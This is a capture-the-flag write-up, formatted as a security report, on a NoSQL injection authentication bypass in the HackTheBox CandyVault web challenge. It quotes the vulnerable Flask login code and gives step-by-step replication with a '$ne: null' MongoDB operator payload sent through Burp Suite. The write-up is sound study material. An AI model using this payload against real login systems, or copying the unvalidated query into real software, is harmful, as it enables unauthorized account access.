 ### CandyVault Web Challange HTB 

## Executive Summary 

Our testing indicates that the overall security of CandyVault.com requires significant improvement. We identified a critical NoSQL Injection vulnerability in the login functionality, which allowed us to bypass authentication. The main attack vector utilized a NoSQL Injection payload sent via a proxy tool (Burp Suite). This vulnerability exists because the login logic does not properly validate user input, allowing queries to match any document where the email and password fields are not null rather than being valid. 


#  MongoDB Injection authenticaion bypass 


## Description

The login functionality of CandyVault.com is vulnerable to NoSQL Injection due to improper handling of user-supplied input. The application directly incorporates unvalidated email and password values from client requests into MongoDB queries:

```user = users_collection.find_one({"email": email, "password": password})```


Because input is not type-checked or sanitized, an attacker can inject MongoDB operators (e.g., $ne) instead of scalar string values. This allows bypassing of authentication checks by submitting a crafted JSON payload.


## Impact 

Authentication bypass: Attackers can log in without valid credentials.

## Likelihood:
Low likelood but high impact, this vulnerability need access to files to discover but is simple to execute. 


## Evidence 

Snippet from routes.py
```
@app.route("/login", methods=["POST"])
def login():
    content_type = request.headers.get("Content-Type")

    if content_type == "application/x-www-form-urlencoded":
        email = request.form.get("email")
        password = request.form.get("password")

    elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
    
    else:
        return jsonify({"error": "Unsupported Content-Type"}), 400

    user = users_collection.find_one({"email": email, "password": password})

    if user:
        return render_template("candy.html", flag=open("flag.txt").read())
    else:
        return redirect("/")

```

As we can see from the above the ```user = users_collection.find_one({"email": email, "password": password})``` this just needs the fields to exist in database.


Replication steps 

1. Intercept the /login POST request using Burp suite 

2. On post payload change Content-Type to application/json.

> We know from files the website uses MongoDB so simple google and find statement that search for email and password that is not null 


4. Replace the body with payload:

{
  "email": {"$ne": null},
  "password": {"$ne": null}
}


5. Forward the request

6. Successful login 



